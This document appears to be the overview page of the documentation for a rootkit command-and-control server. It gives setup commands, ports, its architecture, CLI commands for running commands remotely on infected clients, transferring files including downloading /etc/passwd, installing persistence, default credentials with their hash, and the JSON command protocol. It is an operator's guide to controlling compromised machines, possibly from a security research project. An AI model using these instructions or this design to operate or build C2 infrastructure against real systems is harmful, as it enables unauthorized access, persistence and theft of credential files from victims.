 ```yaml
---
title: "Overview"
description: "C2 server architecture and capabilities"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 301
---
```




## Quick Start

```bash
cd attacking_program
pnpm install
pnpm start
```

**Ports:**
- C2 Server: `4444`
- Web Interface: `3000`

## Architecture

- **CLI Interface**: Interactive command system
- **C2 Server**: TCP server for rootkit connections
- **Web Interface**: REST API with Socket.IO
- **Client Manager**: Connection lifecycle and authentication
- **Event System**: Real-time logging

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm
- **CLI**: Vorpal.js for commands
- **Web**: Express.js + Socket.IO
- **Encryption**: XOR cipher with 32-byte hardcoded key

## Core Features

### Client Management
```bash
ls                          # List connected clients
auth Client-1 password      # Authenticate with client
status Client-1             # Get rootkit status
keepalive Client-1          # Check connection health
```

### Remote Operations
```bash
exec Client-1 whoami                       # Execute commands
upload Client-1 ./file.txt /tmp/file.txt   # Upload files
download Client-1 /etc/passwd ./passwd     # Download files
```

### Configuration
```bash
config Client-1             # Interactive configuration
persist Client-1 install    # Manage persistence
```

## Authentication

### SHA-512 Password System
1. C2 sends plaintext password
2. Rootkit hashes and compares
3. Session established (1-hour timeout)
4. Rate limiting: 5 attempts/60 seconds

**Default Credentials:**
- Password: `password`
- Hash: `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86`

## Configuration

### Environment Settings
```bash
C2_PORT=4444               # C2 server port
WEB_PORT=3000              # Web interface port
ENCRYPTION_KEY=secret32hex  # 32-character hex key
ENABLE_ENCRYPTION=true     # XOR encryption toggle
PASSWORD_HASH=hash         # SHA-512 password hash
```

## Security Features

- **Authentication**: SHA-512 with brute force protection
- **XOR Encryption**: 32-byte key cipher for traffic obfuscation
- **Session Management**: Automatic timeout and cleanup
- **Access Control**: Commands require authentication
- **Health Monitoring**: Automatic stale client detection

## Network Protocol

### Command Format
```json
{
  "type": "command",
  "command": "exec",
  "data": "whoami"
}
```

### Response Format
```json
{
  "type": "response", 
  "success": true,
  "data": "root"
}
```